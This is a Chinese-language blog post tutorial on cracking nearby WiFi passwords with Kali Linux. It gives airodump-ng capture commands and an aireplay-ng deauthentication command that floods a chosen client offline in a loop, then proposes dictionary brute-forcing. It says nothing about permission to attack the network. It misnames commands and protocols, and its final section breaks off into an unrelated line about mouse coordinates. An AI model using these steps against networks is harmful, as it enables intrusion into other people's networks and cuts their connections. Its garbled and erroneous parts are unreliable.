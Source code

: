 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、手机一台（用来打开WiFi热点）、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去获取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

### 1.建立监听热点机制

首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airodump-ng start命令开启无线网卡，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

### 2.监听WiFi热点

**使用airodump-ng wlan0mon命令开始监听周围的WiFi热点，显示周围热点（ctrl+c 停止监听）**
![Alt text](/assets/img/监听wifi信号.png)

**选取一个WiFi热点进行监听抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）**
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)

**为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连**
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication洪水攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

#### 3、字典暴力破解

* 鼠标相对于当前屏幕的坐标    
